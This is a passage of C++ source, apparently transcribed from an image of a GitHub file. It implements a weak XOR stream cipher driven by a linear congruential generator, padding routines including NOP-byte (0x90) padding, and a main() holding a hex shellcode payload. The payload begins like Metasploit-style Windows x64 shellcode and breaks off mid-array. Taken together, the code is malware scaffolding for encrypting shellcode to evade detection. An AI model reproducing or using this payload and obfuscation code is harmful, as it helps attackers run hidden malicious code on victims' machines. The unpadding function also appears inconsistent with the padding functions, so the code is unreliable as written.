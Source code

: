 ```cpp
  state = (MULTIPLIER * state + INCREMENT);
  return state;
}

// padding
unsigned char* pkcs7_pad(unsigned char* data, size_t len, size_t block_size, size_t *new_len) {
  size_t padding = block_size - len % block_size;
  unsigned char* padded_data = (unsigned char*)malloc(len + padding);
  memcpy(padded_data, data, len);

  for(size_t i = len; i < len + padding; ++i) {
    padded_data[i] = padding;
  }

  *new_len = len + padding;
  return padded_data;
}

unsigned char* pad_data(unsigned char* data, size_t len, size_t block_size, size_t *new_len) {
  size_t padding = block_size - len % block_size;
  unsigned char* padded_data = (unsigned char*)malloc(len + padding);
  memcpy(padded_data, data, len);

  for(size_t i = len; i < len + padding; ++i) {
    padded_data[i] = 0x90; // padding with 0x90
  }

  *new_len = len + padding;
  return padded_data;
}

void unpad_data(unsigned char* data, size_t *len) {
  size_t padding = data[*len - 1]; // last byte is the padding length
  *len -= padding + 1; // adjust length to remove padding and padding length byte
}

void mmb_encrypt(unsigned char *data, size_t len) {
  for(size_t i = 0; i < len; ++i) {
    // encrypt one byte at a time
    uint32_t rand = next_random();
    data[i] ^= (rand & 0xFF); // only use the least significant byte
  }
}

void mmb_decrypt(unsigned char *data, size_t len) {
  // decryption is the same as encryption for this cipher
  mmb_encrypt(data, len);
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
```